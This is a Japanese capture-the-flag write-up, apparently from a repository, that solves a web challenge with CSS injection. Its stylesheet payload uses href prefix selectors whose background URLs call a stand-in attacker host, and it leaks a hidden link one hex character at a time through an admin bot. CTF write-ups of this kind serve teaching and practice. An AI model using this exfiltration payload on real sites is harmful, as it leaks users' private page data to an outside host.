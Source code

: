 # Solution

TODO: Pythonで自動化する

CSS Injectionを用いる。

```css
a[href^=gist0] {
  background: url(https://[your.example.com]?value=gist0);
}
a[href^=gist1] {
  background: url(https://[your.example.com]?value=gist1);
}
a[href^=gist2] {
  background: url(https://[your.example.com]?value=gist2);
}
a[href^=gist3] {
  background: url(https://[your.example.com]?value=gist3);
}
a[href^=gist4] {
  background: url(https://[your.example.com]?value=gist4);
}
a[href^=gist5] {
  background: url(https://[your.example.com]?value=gist5);
}
a[href^=gist6] {
  background: url(https://[your.example.com]?value=gist6);
}
a[href^=gist7] {
  background: url(https://[your.example.com]?value=gist7);
}
a[href^=gist8] {
  background: url(https://[your.example.com]?value=gist8);
}
a[href^=gist9] {
  background: url(https://[your.example.com]?value=gist9);
}
a[href^=gista] {
  background: url(https://[your.example.com]?value=gista);
}
a[href^=gistb] {
  background: url(https://[your.example.com]?value=gistb);
}
a[href^=gistc] {
  background: url(https://[your.example.com]?value=gistc);
}
a[href^=gistd] {
  background: url(https://[your.example.com]?value=gistd);
}
a[href^=giste] {
  background: url(https://[your.example.com]?value=giste);
}
a[href^=gistf] {
  background: url(https://[your.example.com]?value=gistf);
}
```

これをstylesheetに投げてURLを作る。
そのURLを `http://web:3000/` prefixにしてAdmin Botにreportする。

すると、your.example.comに飛んできたリクエストから一文字確定できる。
その一文字を `gista` としたとき、2文字目を `0-9a-f` で並べて再度送る。
これを12回行うとhrefの中身が得られる。

その後、得られたURLにアクセスすると、flagが得られる。
